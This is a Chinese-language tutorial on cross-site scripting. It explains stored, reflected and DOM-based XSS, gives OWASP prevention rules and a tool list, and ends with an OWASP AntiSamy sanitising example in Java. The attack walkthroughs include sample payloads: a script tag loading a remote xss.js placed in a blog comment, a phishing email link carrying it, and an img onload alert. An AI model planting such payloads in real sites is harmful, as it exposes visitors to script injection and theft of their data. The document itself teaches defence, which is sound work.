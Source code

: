 

跨站脚本攻击(XSS - Cross Site Scripting)

工具参考 Acunetix_Web_Vulnerability_Scanner_V9

==原理==
Web程序将数据直接作为HTML显示（未进行HTML特殊字符转义、script脚本过滤），在浏览器端显示的这些内容的时候，激活其中包含的JavaScript恶意脚本，这些脚本可以用来获取用户敏感信息，追踪用户浏览历史、将用户诱导至其他网站等。

更多攻击方式请参考：[https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

==分类==

<table>
  <tr>
    <th></th>
    <th colspan="3">风险代码存在于？</th>
  </tr>
  <tr>
    <th></th>
    <th>数据库中</th>
    <th>HTTP响应中</th>
    <th>浏览器构建的DOM中</th>
  </tr>
  <tr>
    <td>Stored XSS Attacks</td>
    <td>Yes</td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>Reflected XSS Attacks</td>
    <td></td>
    <td>Yes</td>
    <td>Yes</td>
  </tr>
  <tr>
    <td>DOM Based XSS</td>
    <td></td>
    <td></td>
    <td>Yes</td>
  </tr>
</table>



===Stored XSS Attacks===
风险代码被先持久存储于服务器上（比如：数据库中），然后再读取出来显示到浏览器。比如在博客上发表文章、发表评论。

攻击流程示例：
<ol>
<li>恶意用户A发现某个博客系统B对博文的评论未做严格检查，而允许注入Javascript代码。</li>
<li>恶意用户A找到一个知名度高的一篇访问量大的博文，发表以下评论代码：
<source>
<script src="http://a.com/xss.js"></script>
楼主的帖子实在是写得太好了。文笔流畅,修辞得体,深得魏晋诸朝遗风,
更将唐风宋骨发扬得入木三分,能在有生之年看见楼主的这个帖子。
实在是我三生之幸啊。......
</source>
</li>
<li>博客系统B使用以下方式显示回帖（JSP语法）：
<source>
回帖人：<%=comment.userId %>，回帖内容是：<%= comment.content %>
</source>
</li>
<li>后果：每个读此博文并看到该评论的受害者都会加载并执行其中的恶意代码。</li>
</ol>

===Reflected XSS Attacks===
风险代码并没有被持久存储，而是在服务器端转了一圈之后就直接显示在生成的动态HTML中。
这种攻击方式常被以HTML邮件的方式发送给潜在受害者。

攻击流程示例：
<ol>
<li>恶意用户A搜索、验证并确信某系统B在访问 <code>http://b.com/welcome.do?user=zhang3</code> 时，是以以下方式显示URL中的用户名的（JSP语法）：
<source>
 welcome <%=param["user"] %>!
</source>
</li>
<li>恶意用户A就利用此漏洞，以系统B的名义向多个用户发送包含以下连接的HTML邮件，并诱导用户点击该链接：
<source>
{系统B}温馨提醒您：XXX 想加您好友，请点击
<a href="http://b.com/welcome.do?user=zhang3<script src='http://a.com/xss.js'></script>">此处</a>
进行处理！
</source>
</li>
<li>后果：受害者在阅读该邮件并点击此链接后，在浏览系统B的欢迎画面时，就会加载并执行来自于 a.com 的恶意脚本</li>
</ol>


===DOM Based XSS===
这种方式与 Reflected XSS Attacks 比较相似，但区别在于：在Reflected XSS Attacks 中，恶意代码时有缺陷的系统在返回给浏览器端之间就加入到生成的HTML中了（比如通过JSP、PHP等）；而在 DOM Based XSS 中，恶意代码是在浏览器端通过有缺陷的JavaScript代码在动态修改DOM树时加入的。

也即，在 Reflected XSS Attacks 的攻击流程示例的第二步中的代码替换为以下方式：
<source>
 welcome <script>
document.write(document.location.href.substring(document.location.href.indexOf("user=")+5));
</script>!
</source>

与前两种的区别是：前两种最终会将风险代码写在生成HTML中，而这一种是服务器端返回的HTML本身并不包含风险代码，但是其中的JavaScript脚本在动态修改DOM时，未对输出值做充分的安全检查。


注入点 

1. 客户端：来自用户输入，却未作安全检查。

<source>
<img src="https://www.owasp.org/skins/monobook/ologo.png" onload="alert('XSS');" >
</source>

2. 服务器端：来自配置文件，却未作安全检查（比如消息模板，头部文件）

==防范XSS==
在Web应用中，XSS缺陷很难确认和移除，一些漏洞扫描工具也只能对浅层的扫描。最好的方式就是针对安全展开代码Review，并对所有来自HTTP请求的数据进行检查，如果请求中的数据有可能最终作为HTML显示，就需要做相应的处理。

==检查列表==
这里仅仅给出了部分摘要，更详尽列表请参看[https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet XSS Prevention Cheat Sheet]：
<ul>
<li>RULE #0 - 不信任的数据只能插入到允许的位置
<p> 示例代码：
<source>
  <script>...NEVER PUT UNTRUSTED DATA HERE...</script>   直接放到script中
  &lt;!--...NEVER PUT UNTRUSTED DATA HERE...-->             在HTML注释中
  <div ...NEVER PUT UNTRUSTED DATA HERE...=test />       在属性名中
  <NEVER PUT UNTRUSTED DATA HERE... href="/test" />      在标签名中
  <style>...NEVER PUT UNTRUSTED DATA HERE...</style>     直接在CSS中
</source>
</p>
</li>

<li>RULE #1 - 插入HTML内容时要先转义
HTML特殊字符转义
<source>
 &amp; --&gt; &amp;amp;
 &lt; --&gt; &amp;lt;
 &gt; --&gt; &amp;gt;
 &quot; --&gt; &amp;quot;
 &#x27; --&gt; &amp;#x27;
 / --&gt; &amp;#x2F; 这里包含了斜杠，因为它在结束一个标签时有用
</source>
</li>

<li>RULE #2 - 插入标签的属性值前要先转义

</li>

<li>RULE #3 - 将不信任的数据插入到JavaScript前要先转义</li>
<li>RULE #3.1 - 在HTML中对JSON的值进行HTML转义，以及使用 JSON.parse 读取数据</li>
<li>RULE #4 - 对CSS转义，以及对HTML元素的sytle设置值前要进行充分的检查</li>
<li>RULE #5 - 在插入URL数据前要先URL转义</li>
<li>RULE #6 - 在输出用户输入的HTML内容时，要使用HTML策略引擎进行验证或移除其中的风险代码</li>
<li>RULE #7 - 要预防 DOM-based XSS</li>
<li>RULE #8 - 使用 [https://www.owasp.org/index.php/HTTPOnly HTTPOnly cookie]</li>


</ul>
==DOM Based XSS 检查列表==
[https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet 参考]
<ul>
<li>RULE #1 - 在可以执行JavaScript的环境中，要对不信任的数据先 HTML 转义，再 JavaScript 转义</li>
<li>RULE #2 - 在可以执行JavaScript的环境中，为HTML元素的属性设置值前要先进行 JavaScript 转义</li>
<li>RULE #3 - 在可以执行JavaScript的环境中，设置事件处理函数等地方需要特别注意</li>
<li>RULE #4 - 在插入CSS属性时需要先进行 JavaScript 转义</li>
<li>RULE #5 - 在插入URL前要先进行URL转义</li>
</ul>

==工具==
* [https://www.owasp.org/index.php/Category:OWASP_AntiSamy_Project OWASP AntiSamy]
* [http://www.cirt.net/nikto2 Nikto2] - 开源的Web服务器扫描工具
* [http://www.tenable.com/products/nessus nessus] - 漏洞扫描工具
* [http://wpl.codeplex.com/ Microsoft Web Protection Library] - .Net 平台下的安全工具
* [http://msdn.microsoft.com/en-us/library/ms972969.aspx#securitybarriers_topic6 ValidateRequest] - .Net 平台内建功能，可以提供部分安全保护措施
* [https://www.owasp.org/index.php/ESAPI OWASP ESAPI] - OWASP Enterprise Security API


== OWASP AntiSamy 使用示例 ==
pom.xml
```xml
  <dependency>
    <groupId>org.owasp.antisamy</groupId>
    <artifactId>antisamy</artifactId>
    <version>1.5.2</version>
  </dependency>
</source>
```

AntiSamyDemo.java
```java
import java.io.IOException;
import java.io.InputStream;

import org.owasp.validator.html.AntiSamy;
import org.owasp.validator.html.CleanResults;
import org.owasp.validator.html.Policy;
import org.owasp.validator.html.PolicyException;
import org.owasp.validator.html.ScanException;

public class AntiSamyDemo {

    public static void main(String[] args) throws PolicyException, IOException, ScanException {

        InputStream prolicyIn = AntiSamyDemo.class.getResourceAsStream("antisamy-ebay-1.4.4.xml");
        Policy policy = Policy.getInstance(prolicyIn);
        AntiSamy as = new AntiSamy();
        String drityInput = "<script>alert(1)</script>"
                + "<a href='#bb' style='z-index:999; width:100%;' onclick='xxx'>aa</a>"
                + "<iframe src='javascript:xxx'></iframe>"
                + "<xxx>xxx</xxx>";

        // 输出： <a href="#bb" style="width: 100.0%;">aa</a> xxx
        CleanResults cr = as.scan(drityInput, policy, AntiSamy.SAX);
        String cleanResult = cr.getCleanHTML();
        System.out.println(cleanResult);
    }
}
```


参考：
* [https://www.owasp.org/index.php/Cross-site_Scripting_(XSS) Cross site Scripting ]
* [https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet XSS Filter Evasion Cheat Sheet]

Cross-Site Request Forgery (CSRF)